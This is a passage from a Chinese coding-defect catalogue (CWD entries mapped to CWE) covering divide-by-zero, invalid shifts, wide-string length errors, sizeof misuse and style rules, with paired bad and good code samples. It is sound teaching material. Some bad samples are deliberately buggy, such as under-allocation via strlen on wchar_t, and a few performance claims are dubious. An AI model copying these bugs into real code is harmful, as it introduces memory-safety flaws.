    if (CollectionUtils.isNotEmpty(addr)) { // 校验addr是否为空
        int newPos = (pos.getAndIncrement()) % addr.size();
        return addr.get(newPos);
    }
    ... // 其他逻辑代码
}
```

**修复建议**
在使用集合的size()作为除数之前，必须先检查集合是否为空。

#### CWD-1298-000 除0错误

#### CWD-1298-001 数值传递过程中，经过计算，经过类型强转，作为除法的除数前未校验，导致零被用作除数

#### CWD-1298-002 数值传递过程中，经过计算，经过类型强转，作为除法的除数前校验错误，导致零被用作除数

#### CWD-1298-003 数值传递过程中，经过计算，经过类型强转，作为取余的除数前未校验，导致零被用作除数

#### CWD-1298-004 数值传递过程中，经过计算，经过类型强转，作为取余的除数前校验错误，导致零被用作除数

#### CWD-1298-005 数值传递过程中，经过计算，未经过类型强转，作为除法的除数前未校验，导致零被用作除数

#### CWD-1298-006 数值传递过程中，经过计算，未经过类型强转，作为除法的除数前校验错误，导致零被用作除数

#### CWD-1298-007 数值传递过程中，经过计算，未经过类型强转，作为取余的除数前未校验，导致零被用作除数

#### CWD-1298-008 数值传递过程中，经过计算，未经过类型强转，作为取余的除数前校验错误，导致零被用作除数

#### CWD-1298-009 数值传递过程中，未经过计算，经过类型强转，作为除法的除数前未校验，导致零被用作除数

#### CWD-1298-010 数值传递过程中，未经过计算，经过类型强转，作为除法的除数前校验错误，导致零被用作除数

#### CWD-1298-011 数值传递过程中，未经过计算，经过类型强转，作为取余的除数前未校验，导致零被用作除数

#### CWD-1298-012 数值传递过程中，未经过计算，经过类型强转，作为取余的除数前校验错误，导致零被用作除数

#### CWD-1298-013 数值传递过程中，未经过计算，未经过类型强转，作为除法的除数前未校验，导致零被用作除数

#### CWD-1298-014 数值传递过程中，未经过计算，未经过类型强转，作为除法的除数前校验错误，导致零被用作除数

#### CWD-1298-015 数值传递过程中，未经过计算，未经过类型强转，作为取余的除数前未校验，导致零被用作除数

#### CWD-1298-016 数值传递过程中，未经过计算，未经过类型强转，作为取余的除数前校验错误，导致零被用作除数

**业界缺陷**

- [CWE-369: Divide By Zero](https://cwe.mitre.org/data/definitions/369.html)
---

# CWD-1299 整数按位偏移不正确

**描述**
按位偏移操作是一种位运算，用于将整数的二进制表示向左或向右移动指定的位数。左移操作（<<）将二进制位向左移动，右移操作（>>）将二进制位向右移动。这种操作常用于快速乘以或除以2的幂次，以及在位操作中调整数据的位置。如果操作不当（如右操作数为负数或超出位宽范围），可能导致未定义行为。因此，在使用按位偏移操作时，需确保右操作数的值在合法范围内。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：确保移位操作正确
  1. 确保移位操作符的左操作数为无符号类型。
  2. 确保移位操作符的右操作数为非负数，且小于左操作数的基本类型位宽（如左操作数是uint8_t类型，右操作数的值要小于8）。

**开发者测试**
- 策略1：测试边界条件
  验证移位操作在边界值（如最大正数、最小负数）下的行为。

**代码Review**
- 策略1：审查移位操作
  检查移位的左操作数是否无符号类型，右操作数是否小于左操作数的基本类型位宽。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测移位操作不正确问题。

**示例**
**案例1: 移位操作符的右操作数等于左操作数的基本类型位宽**
**语言: **C

**描述**
当移位操作的左操作数为32位无符号整数类型时，右操作数的取值范围是[0,31]，当前右操作数的值超过取值范围。

**反例**
```c
uint32_t input = ...
uint32_t value = input << 32;           // 不符合：右操作数的值是32，不满足位宽要求
```

**正例**
```c
uint32_t input = ...

uint32_t count = input << 31;           // 符合：右操作数的值是31，满足位宽要求

// 整数提升后左操作数为64位无符号整数类型时，右操作数的取值范围是[0,63]。
uint64_t value = (uint64_t)input << 32; // 符合：右操作数的值是32，满足位宽要求
```

**修复建议**
1. 移位操作符的右操作数必须是非负数。
2. 移位操作符的右操作数小于左操作数的基本类型位宽，如左操作数是uint8_t类型，右操作数的值要小于8。

#### CWD-1299-000 整数按位偏移不正确

#### CWD-1299-001 移位操作中右操作数是负数，导致未定义行为

#### CWD-1299-002 移位操作中右操作数大于等于左操作数的基本类型位宽，导致未定义行为

#### CWD-1299-003 移位操作中左操作数是有符号类型，导致未定义行为

**业界缺陷**

- [CWE-1335: Incorrect Bitwise Shift of Integer](https://cwe.mitre.org/data/definitions/1335.html)
---

# CWD-1300 多字节字符串长度计算不正确

**描述**
在处理多字节字符串时，错误地计算字符串长度会导致程序逻辑错误或安全漏洞。常见的错误是假设每个字符都是单字节，使用如strlen函数计算字节数而非字符数，从而引发问题。

例如，错误的长度计算可能导致字符串截断，还可能导致内存分配不足，进而引发缓冲区溢出。

为了避免这些问题，建议使用多字节字符串处理函数（如wcslen、wcscpy_s、wmemcpy_s），并正确分配内存，以确保程序的正确运行。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：使用华为安全函数库中的多字节字符串相关函数
  开发人员在编写代码时，必须使用华为认可的安全函数。例如wmemcpy_s、wmemmove_s、wcscpy_s等。
- 策略2：正确计算多字节字符串
  对于wchar_t类型参数的长度，请使用wcslen，而非strlen。

**开发者测试**
- 策略1：测试多字节字符串的处理场景
  测试用例应验证字符串长度计算的准确性，确保程序在处理不同语言和字符集时表现正确。此外，测试还应检查内存分配是否正确，防止因长度计算错误导致的内存溢出或不足。

**代码Review**
- 策略1：关注多字节字符串处理
  检查是否正确使用了多字节字符串处理函数，是否正确计算了字符数，以及内存分配是否合理。

**编译构建**
- 策略1：启用编译器的警告
strlen传参'wchar_t *'类型参数时，编译器会告警`assing argument 1 of 'strlen' from incompatible pointer type [-Wincompatible-pointer-types]`。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测strlen函数的误用，以及未正确使用多字节字符串函数的情况。

**示例**
**案例1: 使用strlen计算wchar_t类型字符串长度导致内存分配不足**
**语言: **C

**描述**
strlen函数用于计算以空字符`\0`结尾的char类型字符串的长度。然而，当处理wchar_t类型字符串时，strlen并不适用，导致长度计算错误。

**反例**
```c
wchar_t src[12] = L"Hello";
size_t size = strlen(src) + 1;  // 不符合：使用strlen计算宽字符长度
wchar_t *p = (wchar_t *)malloc(size * sizeof(wchar_t)); // 申请长度不足
if (p == NULL) {
    // 内存分配失败
    return;
}
errno_t rc = wcscpy_s(p, size, src);
if (rc != EOK) {
    // 字符串拷贝失败
    return;
}
...
```

**正例**
```c
wchar_t src[12] = L"Hello";
size_t size = wcslen(src) + 1; // 符合：使用wcslen计算宽字符长度
wchar_t *p = (wchar_t *)malloc(size * sizeof(wchar_t));  // 正确分配内存
if (p == NULL) {
    // 内存分配失败
    return;
}
errno_t rc = wcscpy_s(p, size, src);
if (rc != EOK) {
    // 字符串拷贝失败
    return;
}
...
```

**修复建议**
1. wcslen(src)正确返回宽字符数量。
2. size计算为字符数加1，确保包含空终止符。
3. malloc分配足够的字节数，避免内存不足。

#### CWD-1300-000 多字节字符串长度计算不正确

#### CWD-1300-001 使用strlen函数计算wchar_t类型字符串的长度，导致字符串长度计算错误

**业界缺陷**

- [CWE-135: Incorrect Calculation of Multi-Byte String Length](https://cwe.mitre.org/data/definitions/135.html)
---

# CWD-1302 浮点型数据精度或准确性不足

**描述**
浮点型数据（如单精度浮点数 float 和双精度浮点数 double）在计算机中用于表示带有小数的数值。然而，由于计算机使用二进制系统，某些十进制小数无法精确表示为有限的二进制小数，导致浮点数在存储和计算时出现精度损失。例如，0.1 在二进制中是一个无限循环小数，无法精确存储，只能近似表示，影响结果准确性。建议采用更高精度的数据类型减少浮点数精度问题带来的影响。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：选择合适的数据类型和算法
  在设计阶段，选择合适的数据类型和算法，以确保数值计算的精度。如Java中涉及精确的数值计算（货币、金融等），不要使用`float`和`double`，建议使用`int`、`long`、`BigDecimal`等。同时，设计时应考虑数值稳定性，避免在计算中进行可能导致精度损失的操作。

**编码**
- 策略1：正确使用数据类型和算法
  例如，在Java中，在构造BigDecimal时，使用浮点数容易导致精度损失，应该使用字符串格式的数值构造BigDecimal，即应该用BigDecimal​(String val)，而不是BigDecimal​(double val)。

**开发者测试**
- 策略1：验证数值计算的准确性
  对于边界情况和极端值，确保计算结果在可接受的误差范围内。可以使用已知的精确结果来比较，以确保计算的准确性。

**代码Review**
- 策略1：检查浮点类型是否合适
- 策略2：检查数值计算的逻辑是否导致精度损失

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测浮点数的使用是否合理。

**示例**
**案例1: 直接使用double类型进行计算导致产生非预期的结果**
**语言: **JAVA

**描述**
浮点数（float和double）在Java中使用二进制表示，而某些十进制小数无法精确表示为二进制小数。例如，0.1在二进制中是一个无限循环小数，无法精确存储。因此，使用浮点数进行计算时，可能会出现精度丢失的问题。

**反例**
```java
System.out.println(1.03d - 0.42d); // 不符合：输出结果是0.6100000000000001，而非预期的0.61
```

**正例**
```c
BigDecimal income = new BigDecimal("1.03");
BigDecimal expense = new BigDecimal("0.42");
System.out.println(income.subtract(expense)); // 符合：输出结果是0.61
```

**修复建议**
1. 使用适合的数值类型
   - 对于需要精确计算的场景（如货币、金融计算），建议使用int、long或BigDecimal类型。
   - BigDecimal提供了高精度的数值运算能力，能够避免浮点数运算的精度丢失问题。
2. 正确构造BigDecimal对象
   - 错误做法：使用浮点数构造BigDecimal会导致精度丢失
   - 正确做法：使用字符串形式的数值构造BigDecimal

#### CWD-1302-000 浮点型数据精度或准确性不足

#### CWD-1302-001 使用float或double类型进行需要精确计算的操作，导致计算结果不精确

#### CWD-1302-002 使用 BigDecimal 时构造方式不正确，导致计算结果不精确

#### CWD-1302-003 使用 BigDecimal 时运算方法错误，导致计算结果不精确

#### CWD-1302-004 使用浮点数和整数进行比较，可能由于精度误差导致错误结果

**业界缺陷**

- [CWE-1339: Insufficient Precision or Accuracy of a Real Number](https://cwe.mitre.org/data/definitions/1339.html)
---

# CWD-1304 sizeof计算错误

**描述**
`sizeof`运算符用于计算数据类型或变量所占的字节数。如果`sizeof`运算符计算错误，会导致之后基于计算结果的内存操作出问题，例如错误的sizeof使用可能导致内存分配不足或过多，进而引发缓冲区越界错误。因此，必须确保sizeof运算符用于正确的数据类型或变量。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：正确使用sizeof运算符
   在编码时，确保sizeof运算符正确使用。例如，使用sizeof(type)或sizeof(variable)，避免使用sizeof(pointer)，因为这会返回指针的大小而非所指数据的大小。

**代码Review**
- 策略1：检查sizeof的使用是否正确
   确保没有误用指针类型，并且在动态内存分配时使用正确的变量或类型。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测sizeof误用。

**示例**
**案例1: 将指针当做数组进行sizeof操作**
**语言: **C

**描述**
将指针当作数组进行sizeof操作时，返回的是指针本身的内存大小，而不是指针指向的内存块的大小。这种错误可能导致内存操作不正确。

**反例**
```c
#define SIZE 1000

void TestBadCase1()
{
    char path[MAX_PATH];
    char *buffer = (char *)malloc(SIZE);
    ...
    memset(path, 0, sizeof(path));

    // 不符合：sizeof(buffer)返回指针大小，不是分配的内存大小
    memset(buffer, 0, sizeof(buffer));
}
```

**正例**
```c
#define SIZE 1000

void TestGoodCase1()
{
    char path[MAX_PATH];
    char *buffer = (char *)malloc(SIZE);
    ...
    memset(path, 0, sizeof(path));

    // 符合：使用分配的内存大小SIZE
    memset(buffer, 0, SIZE);
}
```

**修复建议**
对于指针变量，不能通过sizeof获取该指针指向的内存大小，应该通过上文确认指针指向的内存大小。

#### CWD-1304-000 sizeof计算错误

#### CWD-1304-001 对指针类型使用sizeof()，导致错误的计算结果

#### CWD-1304-002 对容器使用sizeof()，导致错误的计算结果

#### CWD-1304-003 对宏、常量或枚举使用sizeof()，导致错误的计算结果

#### CWD-1304-004 使用sizeof计算的数组元素个数错误

---

# CWD-1309 使用指针减法确定大小

**描述**
指针减法是一种用于计算两个指针之间距离的操作，但这种操作仅在特定条件下才有意义。具体来说，只有当两个指针指向同一数组且类型相同时，减法操作才能正确反映元素个数。如果操作条件不满足，比如使用不同类型的指针或指向不同内存块的指针进行减法，结果将失去意义。

错误的指针减法操作可能导致不可预测的结果。由于指针类型不匹配或指向不同内存区域，计算出的"距离"可能毫无意义，可能引发未定义行为，导致程序运行出错。

为了避免潜在风险，建议尽量减少直接使用指针运算，优先采用数组索引方式访问元素。只有在确保两个指针指向同一数组且类型一致的情况下，才应进行指针减法操作。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：避免不必要的指针减法运算
   尽量使用索引或迭代器（vector、array等）代替指针运算，减少出错机会。
- 策略2：类型检查
   在进行指针减法前，确保两个指针类型相同且指向同一内存块。

**代码Review**
- 策略1：严格审查指针操作
   特别关注指针运算，确保所有减法操作符合编码要求。

**编译构建**
- 策略1：启用编译器警告
  使用编译器选项，及时发现指针类型不匹配的减法。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测指针类型不匹配或不安全的减法操作。

**示例**
**案例1: 指向不同数组的指针相减**
**语言: **C

**描述**
ptr1 和 ptr2 分别指向两个不同的数组 arr1 和 arr2，它们的减法结果没有实际意义，因为它们不在同一个内存块中。

**反例**
```c
int arr1[] = {1, 2, 3};
int arr2[] = {4, 5, 6};
int *ptr1 = arr1;
int *ptr2 = arr2;  // ptr2 指向另一个数组

// 不符合：两个指针指向不同数组
int diff = ptr2 - ptr1;  // 结果无意义，因为 ptr1 和 ptr2 不在同一个数组中
```

**正例**
```c
int arr[] = {1, 2, 3, 4, 5};
int index = 2;

// 符合：使用索引替代指针减法
int value = arr[index];  // 直接通过索引访问元素
```

**修复建议**
避免直接使用指针减法，而是通过索引访问数组元素。

#### CWD-1309-000 使用指针减法确定大小

#### CWD-1309-001 指向不同数组的指针进行减法操作，导致错误的计算结果

#### CWD-1309-002 指向不同类型的指针进行减法操作，导致错误的计算结果

**业界缺陷**

- [CWE-469: Use of Pointer Subtraction to Determine Size](https://cwe.mitre.org/data/definitions/469.html)
---

# CWD-1310 含有变量自增或自减运算的表达式中再次引用该变量

**描述**
含有变量自增或自减运算的表达式中，如果再引用该变量，其结果在C语言标准中未明确定义。不同编译器或者同一个编译器不同版本实现可能会不一致。这种不确定性会导致代码的可移植性受到严重影响，增加程序在不同环境下运行时出现意外行为的风险。应将自增或自减运算单独放在一行，确保运算次序明确，从而提高代码的可读性和可移植性。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠,可移植,可读

**缺陷防护全景**
**编码**
- 策略1：自增或自减运算单独放在一行
  在编码时，将变量的自增或自减运算单独放在一行，避免与其他运算混合在同一表达式中。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测变量的自增或自减运算与其他运算混合在同一表达式中的情况。

**示例**
**案例1: 一个表达式中既有变量的递增或递减运算，也有此变量的其它运算**
**语言: **C

**描述**
当一个表达式中同时包含变量的递增（++）或递减（--）运算，以及其他涉及该变量的运算时，可能会导致运算次序不明确，从而引发潜在的错误或不可预测的行为。

**反例**
```c
x = b[i] + i++; // 不符合： b[i]运算跟 i++，先后顺序并不明确

Fun(i--, i);    // 不符合： 传递第2个参数时，不确定自减运算有没有发生
```

**正例**
```c
x = b[i] + i;
i++;            // 符合： 单独一行

i--;            // 符合： 单独一行
x = Fun(i);     // 函数微重构
```

**修复建议**
将自增或自减运算提到表达式之外，单独放一行。

#### CWD-1310-000 含有变量自增或自减运算的表达式中再次引用该变量

#### CWD-1310-001 在变量自增运算的表达式中同时包含该变量的其它运算，导致错误的计算结果

#### CWD-1310-002 在变量自减运算的表达式中同时包含该变量的其它运算，导致错误的计算结果

---

# CWD-1311 依赖未计算的操作数中的副作用

**描述**
`sizeof`、`noexcept`、`decltype`、`typeid`等运算符用于获取与类型或表达式等相关的信息。然而，当这些运算符的操作数包含赋值（如a += 1）、自增（如a++）、自减（如a--）或函数调用等具有副作用的表达式时，这些表达式的副作用可能不会按预期执行。

例如，`typeid(a++)`中，`a++`未执行，变量a的值保持不变，进而影响后续的计算或逻辑判断。为了避免这些运算符操作数中的副作用未执行的问题，建议将具有副作用的表达式移到运算符之外执行。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠,可读

**缺陷防护全景**
**编码**
- 策略1：不要向运算符传递有副作用的操作数
   开发者在编码时，避免在上述运算符的操作数中使用有副作用的表达式。如果必须使用，先执行有副作用的操作，再将结果传递给运算符。

**代码Review**
- 策略1：审查运算符的操作数
   在代码审查过程中，特别关注这些运算符的使用，检查其操作数是否包含有副作用的表达式。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测在这些运算符的操作数中使用有副作用的表达式。

**示例**
**案例1: sizeof的操作数有副作用**
**语言: **C

**描述**
如果在sizeof的操作数中包含赋值或自增自减等有副作用的操作，这些操作将不会生效。因此，这些操作不会改变变量的值，可能导致意外的结果。

**反例**
```c
#define INIT_NUM 1000

void TestBadCase2()
{
    int32_t data;
    size_t size1 = sizeof(data = INIT_NUM); // 不符合：这里data没有被赋值
    size_t size2 = sizeof(data++);          // 不符合：这里data不会自增
    printf("%zu, %zu\n", size1, size2);
}
```

**正例**
```c
#define INIT_NUM 1000

void TestGoodCase2()
{
    int32_t data = INIT_NUM;
    data++;
    size_t size = sizeof(data);             // 符合
    printf("%zu\n", size);
}
```

**修复建议**
对变量进行赋值或自增自减的操作，应该在sizeof的操作数以外的地方完成。

**案例2: typeid的操作数有副作用**
**语言: **CPP

**描述**
如果在typeid的操作数中包含赋值或自增自减等有副作用的操作，这些操作将不会生效。因此，这些操作不会改变变量的值，可能导致意外的结果。

**反例**
```c
int a = 0;
/* 不符合: typeid的参数是赋值 */
Foo(typeid(a += 1).name());

/* 不符合: typeid的参数是递增和递减 */
Foo(typeid(a++).name());

/* 不符合: typeid的参数是函数 */
Foo(typeid(GetBase()).name());
```

**正例**
```c
int a = 0;
/* 符合:  */
Foo(typeid(a).name());

Base &b = GetBase();
/* 符合:  */
Foo(typeid(b).name());
```

**修复建议**
将有副作用的操作移到typeid之外执行。

#### CWD-1311-000 依赖未计算的操作数中的副作用

#### CWD-1311-001 sizeof运算符的操作数包含具有副作用的表达式，导致副作用未按预期执行 

#### CWD-1311-002 noexcept运算符的操作数包含具有副作用的表达式，导致副作用未按预期执行 

#### CWD-1311-003 decltype运算符的操作数包含具有副作用的表达式，导致副作用未按预期执行 

#### CWD-1311-004 typeid运算符的操作数包含具有副作用的表达式，导致副作用未按预期执行 

#### CWD-1311-005 requires运算符的操作数包含具有副作用的表达式，导致副作用未按预期执行 

---

# CWD-1312 未遵循单一定义原则

**描述**
每个函数、变量、类型等只能有一个定义。如果程序中出现多个定义，编译器将无法确定使用哪个定义，从而导致编译错误。

**语言: **C,CPP,JAVA,PYTHON,JAVASCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1312-000 未遵循单一定义原则

---

# CWD-1313 变量声明未遵循就近原则

**描述**
变量的定义与使用分离，会程序难以理解和维护。此外，在函数开始时，经常没有足够的信息进行变量初始化，往往用某个默认的空值(比如零)来初始化，使程序低效，如果变量在被赋于有效值以前被使用，还会导致错误。

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,ARKTS,KOTLIN

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1313-000 变量声明未遵循就近原则

---

# CWD-1314 过于依赖全局变量

**描述**
全局变量是在所有作用域都可访问的变量。过度依赖全局变量会带来一系列风险，如紧耦合、调试和维护困难，因此，应谨慎使用全局变量，尽量不用或少用全局变量。

**语言: **JAVASCRIPT,TYPESCRIPT,ARKTS,LUA,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1314-000 过于依赖全局变量

**业界缺陷**

- [CWE-1108: Excessive Reliance on Global Variables](https://cwe.mitre.org/data/definitions/1108.html)
---

# CWD-1315 不合理的声明或定义

**描述**
不合理的声明或定义语句，可能会导致编译错误、逻辑错误等问题。例如，重复定义、定义与使用分离、声明方式不合理等。

**语言: **TYPESCRIPT,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1315-000 不合理的声明或定义

---

# CWD-1316 未使用using定义类型别名

**描述**
类型别名实际上是对类型的封装，使用 typedef 定义类型别名确实不太易于理解。建议使用 using 关键字来定义类型别名，更容易理解，不易出错。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1316-000 未使用using定义类型别名

---

# CWD-1317 使用短声明定义空的slice

**描述**
使用短声明定义一个空的slice，会导致可读性差。

**语言: **GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1317-000 使用短声明定义空的slice

---

# CWD-1318 字符转义时未优先使用raw string

**描述**
raw string是一种特殊的字符串表示方式，可以在字符串中包含特殊字符而不需要进行转义。在需要转义的场景下，如未使用raw string，就需要对每个反斜杠进行转义，显得比较繁琐且难懂。

**语言: **CPP,PYTHON,GO,RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1318-000 字符转义时未优先使用raw string

---

# CWD-1319 在能使用字面量风格声明对象的场景中使用封装类型

**描述**
在能使用字面量风格声明对象的场景中，使用对应的封装类型可能会引入语义不确定性和错误。例如，在 TypeScript 中，使用 Boolean 封装类型创建对象，例如 const isOk = new Boolean(false)，可能会导致意外的结果。在这种情况下，if (isOk) 的结果总是 true，因为 isOk 是一个对象，而不是一个布尔值。这可能会导致逻辑错误。

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,ARKTS,RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1319-000 在能使用字面量风格声明对象的场景中使用封装类型

---

# CWD-1320 未确保枚举常量映射到唯一值

**描述**
枚举类型是具有一组有限值的集合，这些值的标识符被称为枚举常量。枚举常量是一个整数常量表达式，将同一个枚举类型中的多个枚举常量定义为相同的值可能会导致一些不易被发现的错误。

**语言: **C,CPP,ARKTS,FILE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1320-000 未确保枚举常量映射到唯一值

---

# CWD-1321 未使用简写定义对象

**描述**
Vue在定义对象时，推荐使用简写语法。这种语法可以更简洁地定义对象，并且可以更好地表达对象的结构。例如，如果我们要定义一个包含属性`name`和`age`的对象，我们可以这样写：

```javascript
// 使用简写语法
const person = { name, age };

// 不使用简写语法
const person = { name: name, age: age };
```

可以看到，使用简写语法可以减少冗余代码，使代码更加简洁易读。

**语言: **JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1321-000 未使用简写定义对象

---

# CWD-1322 未使用this关键字来明确指定实例变量或方法参数

**描述**
在Java代码中，如果有实例变量或方法参数与局部变量同名，那么应该使用this关键字来明确指定实例变量或方法参数。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1322-000 未使用this关键字来明确指定实例变量或方法参数

---

# CWD-1323 初始化结构变量未采用复合字面量的方式

**描述**
初始化结构体变量时，单独给指定字段赋值比较累赘，没有指定字段赋值影响可读性，建议尽量在复合字面量中为指定的字段设置初始值。

**语言: **GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1323-000 初始化结构变量未采用复合字面量的方式

---

# CWD-1324 使用难以理解的字面量

**描述**
在编写代码时，直接使用难以理解的字面量，如整数字面量（魔鬼数字）42、-100，浮点数字面量3.14、1.23e-4，字符串字面量"hello world"等，会降低代码的可读性和可维护性，导致代码难以理解和修改。为避免这种情况，可以使用符号常量来代表这些字面量，例如定义名为 MAX_VALUE 的常量来代表数字 42，定义名为 PI 的常量来代表数字 3.14，从而提高代码的可读性和可维护性，使代码更加易于理解和修改。

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,SHELL,ARKTS,LUA,RUBY,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1324-000 使用难以理解的字面量

**业界缺陷**

- [CWE-1106: Insufficient Use of Symbolic Constants](https://cwe.mitre.org/data/definitions/1106.html)
---

# CWD-1325 未使用恰当的基本类型作为操作符的操作数

**描述**
操作符的使用需要遵循类型限制，不能接受非预期的操作数类型。不是所有的操作符都可以接受任意类型的操作数，有些操作符只能接受特定类型的操作数。例如，加减操作应该使用数值类型，不应使用布尔、枚举、字符等类型的值。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1325-000 未使用恰当的基本类型作为操作符的操作数

---

# CWD-1326 创建新线程时未指定线程名

**描述**
创建新线程时未指定线程名会导致问题定位变得困难，因为日志或者dump文件中会包含线程的名字，但缺省的线程名Thread-n无法区分出是哪个线程，不便于问题定位。为避免这种情况，可以在创建新线程时指定一个有意义的线程名，这样可以使代码更易于调试和维护。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1326-000 创建新线程时未指定线程名

---

# CWD-1327 标识符的声明范围过大

**描述**
如果标识符声明的范围比需要的范围大，则会降低代码的可读性，并可能被意外引用而产生预期之外的错误。因此，标识符在满足功能的同时，应在最小作用域内声明。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1327-000 标识符的声明范围过大

**业界缺陷**

- [CWE-1126: Declaration of Variable with Unnecessarily Wide Scope](https://cwe.mitre.org/data/definitions/1126.html)
---

# CWD-1328 不合理的条件表达式

**描述**
在编程中，不合理的条件表达式可能会导致程序错误或难以理解。这种情况可能是由于逻辑错误、对条件表达式的误解、条件表达式过于复杂等。

**语言: **ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1328-000 不合理的条件表达式

---

# CWD-1329 switch语句中只有一种或两种情况

**描述**
如果 switch语句中表达式的值只有一种或两种情况（如：表达式是布尔类型），那么使用 if-else 结构更合适，因为 switch 语句通常用于许多不同的情况。

**语言: **C,CPP,JAVA,PYTHON,GO,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1329-000 switch语句中只有一种或两种情况

---

# CWD-1330 if语句评估同一表达式两种情况以上

**描述**
如果一个 if 语句有多个条件（超过 2 个）且都对同一个变量或表达式进行评估，考虑使用 switch 语句代替。

**语言: **C,ARKTS

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1330-000 if语句评估同一表达式两种情况以上

---

# CWD-1331 未使用三元运算符代替条件表达式

**描述**
使用三元运算符的运算效率比条件表达式更适用。

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1331-000 未使用三元运算符代替条件表达式

---

# CWD-1332 循环中退出条件不够简洁

**描述**
使用复杂的循环退出条件，让代码变得令人困惑。例如：for (int i = 0 ; i < 10 ; i++) {if (i * i <= 25) {continue;}break; // 不符合：在循环结尾处break，可读性差}for (int i = 0 ; i < 10 ; i++) {if (i * i > 25) {break; // 符合：逻辑正确，方法意图比较清晰}}

**语言: **CPP,JAVA,ARKTS

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1332-000 循环中退出条件不够简洁

---

# CWD-1333 三元运算符不够简洁

**描述**
使用逻辑复杂的三元运算符表达式，让代码变得令人困惑。例如：condition ? true : expr 可简化为 condition || exprcondition ? false : expr 可简化为 !condition && exprcondition ? expr : true 可简化为 !condition || exprcondition ? expr : false 可简化为 condition && expr"

**语言: **JAVA,JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1333-000 三元运算符不够简洁

---

# CWD-1334 使用仅有循环终止条件的for循环

**描述**
没有初始部分和最后更新部分的for循环（如：for (; i < 10; )），可以简化为while循环，使代码更加简洁易懂。

**语言: **C,CPP,JAVA,PYTHON,GO,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1334-000 使用仅有循环终止条件的for循环

---

# CWD-1335 条件中使用"!"替代逻辑反操作符

**描述**
在条件中使用"!"替代逻辑反操作符可能会导致代码的可读性和可维护性降低，因为使用"!"可能会让代码更难理解。例如，对于条件"if (!(a == b))"，相比之下，使用明确的逻辑反操作符 != 会更易于理解："if (a != b)"。因此，在条件语句中，建议使用明确的逻辑反操作符，如 !=、!==、>、< 等，而不是使用 ! 来代替它们。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1335-000 条件中使用"!"替代逻辑反操作符

---

# CWD-1336 条件表达式中的布尔值使用不合规约

**描述**
各语言对布尔值的处理方式不同。例如：Python语言建议对所有的对象进行隐式布尔值的推断，可以使代码更简洁，更高效。

**语言: **C,CPP,TYPESCRIPT,RUST,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1336-000 条件表达式中的布尔值使用不合规约

---

# CWD-1337 不合理的赋值表达式

**描述**
在赋值变量时使用不必要或低效的语法，推荐使用更简洁高效的语法。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1337-000 不合理的赋值表达式

---

# CWD-1338 未使用简短的自我赋值语法

**描述**
自我赋值语法是通过使用自运算符实现的。自运算符可以简化代码并提高效率。使用自运算符可以减少代码的行数，提高代码的可读性和可维护性。同时，使用自运算符还可以提高代码的执行效率，因为它们比普通的加减运算符更快。例如x = x + y 可改为 x +=y。

**语言: **RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1338-000 未使用简短的自我赋值语法

---

# CWD-1339 未使用tuple unpacking语法进行变量值交换

**描述**
建议在交换两个变量的值时使用“tuple unpacking”语法，而不是使用中间变量。例如：a = 1b = 2a, b = b, a

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1339-000 未使用tuple unpacking语法进行变量值交换

---

# CWD-1340 不合理的lambda表达式

**描述**
